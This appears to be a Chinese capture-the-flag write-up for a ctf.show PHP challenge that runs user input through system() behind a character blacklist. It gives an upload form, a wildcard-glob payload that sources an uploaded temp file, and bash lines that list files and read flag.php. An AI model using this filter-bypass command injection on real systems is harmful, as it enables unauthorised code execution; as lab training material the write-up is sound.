


```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤了

;

字母

数字

$

(

{

'

"

`

%

\x09即tab制表符

\x26即&符号

\>

\<


命令执行


同上一题

构造post上传文件数据包

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://46230c96-8291-44b8-a58c-c133ec248231.chall.ctf.show/" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

上传文件，然后抓包

修改数据包


```
/?c=.%20/???/????????[@-[]
```

```
#!/bin/bash
ls
```




读取flag

```
/?c=.%20/???/????????[@-[] 
```

```
#!/bin/bash
tac flag.php
```


